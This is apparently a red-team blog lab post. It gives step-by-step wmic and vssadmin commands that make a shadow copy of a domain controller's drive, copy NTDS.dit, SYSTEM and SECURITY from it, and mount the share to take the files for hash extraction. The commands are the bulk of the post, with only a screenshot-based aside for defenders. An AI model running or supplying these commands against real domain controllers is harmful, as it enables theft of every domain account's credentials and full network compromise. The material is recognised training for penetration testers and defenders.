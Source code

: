 ```yaml
---
layout: post
title: "dumping domain controller hashes via wmic and shadow copy using vssadmin"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 213609.png>)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine (right) and the files being dumped to c:\temp on the DC01 on the left:

![](<../../.gitbook/assets/dc-dump (1).gif>)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 222654.png>)

Now, of you go extracting hashes with secretsdump as shown here:

{% content-ref url="ntds.dit-enumeration.md" %}
[ntds.dit-enumeration.md](ntds.dit-enumeration.md)
{% endcontent-ref %}

## Observations

A quick note for defenders on the proces ancestry:

![](<../../.gitbook/assets/Annotation 2019-05-23 213352.png>)

and of course commandlines:

![](<../../.gitbook/assets/Annotation 2019-05-23 223432.png>)

as well as service states:

![](<../../.gitbook/assets/Annotation 2019-05-23 223157.png>)

...and of course the lateral movement piece:

![](<../../.gitbook/assets/Annotation 2019-05-23 230027.png>)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)
@spotheplanet

